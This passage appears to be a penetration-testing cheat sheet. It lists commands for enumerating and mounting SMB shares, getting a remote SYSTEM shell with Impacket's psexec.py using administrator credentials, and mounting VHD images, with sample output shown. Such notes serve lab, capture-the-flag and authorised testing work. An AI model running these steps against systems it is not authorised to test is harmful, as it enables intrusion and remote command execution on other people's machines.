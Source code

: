 
### SMB is Open

If SMB has misconfigured anonymous login, Use smbclient to list shares.

```
> $ smbclient -L \\\\<HOST_IP>
```

If SMB Ports are open, we can look for anonymous login to mount misconfigured shares.

```
> $ mkdir /mnt/smb
> $ mount -t cifs //<REMOTE_SMB_IP>/<SHARE> /mnt/smb/
Password for root@//<HOST_IP>/<SHARE>: 
```
 
If we found Administrator Credentials for SMB, Access the root shell using this method.

```
> $ /opt/impacket/examples# smbmap -u administrator -p password -H <HOST_IP>
[+] Finding open SMB ports....
[+] User SMB session establishd on <HOST_IP>...
[+] IP: <HOST_IP>:445	Name: <HOST_IP>                                      
	 Disk                                                  	Permissions
	 ----                                                  	-----------
	 ADMIN$                                            	READ, WRITE
	 Backups                                           	READ, WRITE
	 C$                                                	READ, WRITE
	 IPC$                                              	READ ONLY
  
> $ /opt/impacket/examples# python psexec.py administrator@<HOST_IP>
Impacket v0.9.21-dev - Copyright 2019 SecureAuth Corporation

  Password:
  [*] Requesting shares on <HOST_IP>.....
  [*] Found writable share ADMIN$
  [*] Uploading file tJJmcVQN.exe
  [*] Opening SVCManager on <HOST_IP>.....
  [*] Creating service RKAe on <HOST_IP>....
  [*] Starting service RKAe.....
  [!] Press help for extra shell commands
  Microsoft Windows [Version 10.0.14393]
  (c) 2016 Microsoft Corporation. All rights reserved.

  C:\Windows\system32>
```

### To Extract and Mount VHD Drive Files

```
> $ 7z l <FILENAME>.vhd
7-Zip [64] 16.02 : Copyright (c) 1999-2016 Igor Pavlov : 2016-05-21
p7zip Version 16.02 (locale=en_US.UTF-8,Utf16=on,HugeFiles=on,64 bits,2 CPUs Intel(R) Core(TM) i5-5200U CPU @ 2.20GHz (306D4),ASM,AES-NI)
Scanning the drive for archives:
1 file, 5418299392 bytes (5168 MiB)
Listing archive: <FILENAME>.vhd

> $ guestmount --add <VHD_NAME>.vhd --inspector -ro -v /mnt/vhd
```
